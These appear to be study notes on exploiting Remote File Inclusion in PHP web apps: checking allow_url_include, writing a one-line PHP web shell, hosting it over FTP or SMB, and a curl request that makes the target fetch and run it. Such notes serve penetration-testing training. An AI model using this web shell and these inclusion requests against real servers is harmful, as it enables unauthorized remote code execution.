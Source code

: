 ## Verify RFI

in most languages including remote URLs is considered a dangeruous securioty practice as it allows for multiple vulns. This is why remote URL inclusion is usually disabled by feault

```shell
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

However here this is not a reliable indicator as even if this setting is enabled the function may not allow remote url inclusion. So a more reliable way to checks is to try and include a URL. 

- Always start off by testing with inluding a LOCAL URL to assure the attempt does not get blocked by firewalls

**Note:** It may not be ideal to include the vulnerable page itself (i.e. index.php), as this may cause a recursive inclusion loop and cause a DoS to the back-end server.

## remote code execution with RFI

THE FIRST STEP in gaining remote exec is creating a malicious script in the lanmguage of the web app.

```shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

now all we need to do is host this script and include it in the RFI  vuln.



Tip: We can examine the connection on our machine to ensure the request is being sent as we specified it. For example, if we saw an extra extension (.php) was appended to the request, then we can omit it from our payload

### hosting the shell with FTP


```shell
sudo python -m pyftpdlib -p 21
```

```shell
curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```

## SMB

if the vulnerable app is hosted onma  windows server ( we can tell from the server version in the HTTP response header) then we do not need the allow_url_inlcude setting to be enabled for RFI as SMB protocols allows remote file inclusion. 

This is because Windows treats files on remote SMB servers are normal files


```shell
impacket-smbserver -smb2support share $(pwd)
```
